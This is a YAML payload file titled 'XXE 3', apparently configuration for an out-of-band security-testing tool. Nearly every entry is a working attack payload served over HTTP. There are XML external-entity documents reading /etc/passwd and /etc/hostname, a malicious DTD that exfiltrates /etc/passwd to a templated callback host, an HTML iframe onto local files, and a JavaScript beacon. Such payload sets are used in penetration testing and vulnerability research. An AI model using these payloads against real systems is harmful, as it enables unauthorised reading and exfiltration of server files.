 ```yaml
---
title: XXE 3
description: More XXE
weight: 1
payloads:
  - type: HTTPX
    project_id: 1
    sort_order: 1
    pattern: /dt$
    data: '{"headers":{"Content-Type":"text/xml"},"body":"\u003c?xml version=\"1.0\" encoding=\"ISO-8859-1\"?\u003e\n \u003c!DOCTYPE foo [  \u003c!ELEMENT foo ANY \u003e \u003c!ENTITY xxe SYSTEM \"http://{{ .Host }}/{{ .NotifyString }}/xxe-test\" \u003e]\u003e\u003cfoo\u003e\u0026xxe;\u003c/foo\u003e"}'

  - type: HTTPX
    project_id: 1
    sort_order: 1
    pattern: /evil\.dtd$
    data: '{"headers":{"Content-Type":"text/xml"},"body":"\u003c!ENTITY % payl SYSTEM \"file:///etc/passwd\"\u003e\n\u003c!ENTITY % int \"\u003c!ENTITY % trick SYSTEM ''http://{{ .Host }}:80/{{ .AlertPattern }}/xxe?p=%payl;''\u003e\"\u003e"}'

  - type: HTTPX
    project_id: 1
    sort_order: 1
    pattern: /hello$
    data: '{"headers":{"Content-Type":"application/json"},"body":"{\"data\":\"hello world\"}"}'

  - type: HTTPX
    project_id: 1
    sort_order: 1
    pattern: /ht$
    data: '{"headers":{"Content-Type":"text/html"},"body":"\u003chtml\u003e\u003cbody\u003e\u003cimg src=\"{{.AlertPattern}}/static-lh\" /\u003e\u003ciframe src=\"file:///etc/passwd\" height=\"500\"\u003e\u003c/iframe\u003e\u003c/body\u003e\u003c/html\u003e"}'

  - type: HTTPX
    project_id: 1
    sort_order: 1
    pattern: /js$
    data: '{"headers":{"Content-Type":"text/javascript"},"body":"var s = document.createElement(\"img\");document.body.appendChild(s); s.src=\"//{{ .Host }}/{{.AlertPattern}}/s\";"}'

  - type: HTTPX
    project_id: 1
    sort_order: 1
    pattern: /sh$
    data: '{"headers":{"Content-Type":"text/xml"},"body":"\u003c?xml version=\"1.0\" standalone=\"yes\"?\u003e\n\u003c!DOCTYPE test [ \u003c!ENTITY xxe SYSTEM \"file:///etc/hostname\" \u003e ]\u003e\n\u003csvg width=\"128px\" height=\"128px\" xmlns=\"http://www.w3.org/2000/svg\" xmlns:xlink=\"http://www.w3.org/1999/xlink\" version=\"1.1\"\u003e\n\u003ctext font-size=\"16\" x=\"0\" y=\"16\"\u003e\u0026xxe;\u003c/text\u003e\n\u003c/svg\u003e"}'

  - type: HTTPX
    project_id: 1
    sort_order: 1
    pattern: /sv$
    data: '{"headers":{"Content-Type":"image/svg+xml"},"body":"\u003c?xml version=\"1.0\" standalone=\"yes\"?\u003e\u003c!DOCTYPE ernw [ \u003c!ENTITY xxe SYSTEM \"file:///etc/passwd\" \u003e ]\u003e\u003csvg width=\"500px\" height=\"100px\" xmlns=\"http://www.w3.org/2000/svg\" xmlns:xlink=\"http://www.w3.org/1999/xlink\" version=\"1.1\"\u003e\u003ctext font-family=\"Verdana\" font-size=\"16\" x=\"10\" y=\"40\"\u003e\u0026xxe;\u003c/text\u003e\u003c/svg\u003e"}'
---
```

